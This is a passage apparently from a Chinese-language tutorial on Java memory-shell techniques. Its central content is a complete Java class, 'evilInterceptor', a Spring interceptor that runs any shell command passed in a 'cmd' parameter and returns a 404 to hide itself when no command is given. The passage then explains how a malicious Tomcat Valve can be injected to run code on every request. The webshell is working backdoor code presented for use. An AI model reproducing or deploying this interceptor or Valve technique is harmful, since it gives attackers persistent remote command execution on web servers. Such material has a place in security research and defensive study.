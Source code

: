 ```java

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.util.Scanner;

public class evilInterceptor {
    public static HandlerInterceptor getInterceptor(){
        return new HandlerInterceptor() {
            @Override
            public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
                String cmd = request.getParameter("cmd");
                PrintWriter writer = response.getWriter();
                if (cmd != null) {
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder("cmd.exe", "/c", cmd);
                    } else {
                        p = new ProcessBuilder("/bin/sh", "-c", cmd);
                    }
                    Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    writer.write(o);
                    writer.flush();
                    writer.close();
                } else {
                    response.sendError(404);
                }
                return true;
            }
        };
    }
}

```
![](img/2023-01-30-17-56-44.png)
### Tomcat Valve
Tomcat Valve是指在tomcat中pipline的一个个处理模块,在Tomcat中分为四个容器Engine,Host,Context,Wrapper,其都继承于基础容器类`ContainerBase`,而`ContainerBase`則是原始`Container`接口的实现类,而pipline的作用就是将这个四个容器连接起来,当一个请求到达时,依次将该请求通过pipline传递各个容器进行处理最后返回,而Valve就是pipline内部的一个组件,可以对传递的reqeust进行额外的逻辑处理,而且四个容器使用的是同一个pipline,所以在任意一个容器内都可以访问到pipline的Valve,同样的Tomcat也提供了添加valve的功能,所以则可以同添加恶意的valve实现类到pipline中,在每一个请求进入时执行恶意代码.  